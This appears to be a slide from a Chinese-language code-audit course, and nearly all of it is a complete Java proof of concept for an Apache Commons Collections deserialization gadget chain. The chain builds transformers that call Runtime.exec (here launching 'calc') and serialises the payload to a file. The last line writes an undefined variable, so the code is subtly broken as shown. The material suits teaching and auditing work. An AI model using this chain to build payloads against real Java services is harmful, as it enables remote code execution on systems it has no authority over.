

# 代码审计-源码分析
完整POC：
        Transformer[] transformerArray=new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformerArray);
        Map<Object, Object> map = new HashMap<Object, Object>();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"any1");
        HashMap<Object, Object> hashMap = new HashMap<Object, Object>();
        hashMap.put(tiedMapEntry,"any2");
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,chainedTransformer);
        lazyMap.remove("any1");
        //序列化：
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("PayLoad.bin"));
        oos.writeObject(object);
151